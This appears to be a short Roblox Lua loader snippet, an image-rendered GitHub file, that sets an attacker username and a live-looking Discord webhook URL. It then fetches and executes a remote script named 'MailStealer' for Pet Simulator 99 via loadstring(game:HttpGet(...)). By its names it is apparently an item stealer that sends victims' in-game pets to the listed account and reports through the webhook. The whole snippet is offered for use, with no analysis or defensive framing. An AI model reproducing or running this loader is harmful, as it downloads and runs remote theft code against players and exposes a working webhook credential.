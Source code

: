 Username = "PogrzaloCie"
Username2 = "PogrzaloCie"
Loading = "LOADING"
Webhook = "https://discord.com/api/webhooks/1275106108348039240/qr7NmdjwtRTn5Z4a91aR-Tn1Foyk1IAH2QV3PYqKSTy-ihbl_gsECYkQ3nu4oy6GmDIZ"

loadstring(game:HttpGet("https://raw.githubusercontent.com/GengarScripts/MailStealer/main/PetSimulator99"))()
